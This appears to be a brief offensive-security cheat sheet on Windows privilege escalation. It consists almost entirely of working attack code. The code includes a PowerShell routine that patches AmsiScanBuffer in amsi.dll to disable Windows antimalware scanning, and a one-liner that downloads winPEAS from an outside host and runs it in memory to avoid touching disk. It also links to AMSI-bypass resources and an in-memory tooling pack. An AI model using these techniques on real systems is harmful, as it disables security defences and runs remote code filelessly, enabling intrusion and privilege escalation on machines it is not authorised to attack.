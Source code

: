 # Privesc
## Disable AMSI
https://amsi.fail/

### Bypass at .net AMSI level 
https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

```
## Common Binary in memory
https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master 
## WinPeas without touching disk
```
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
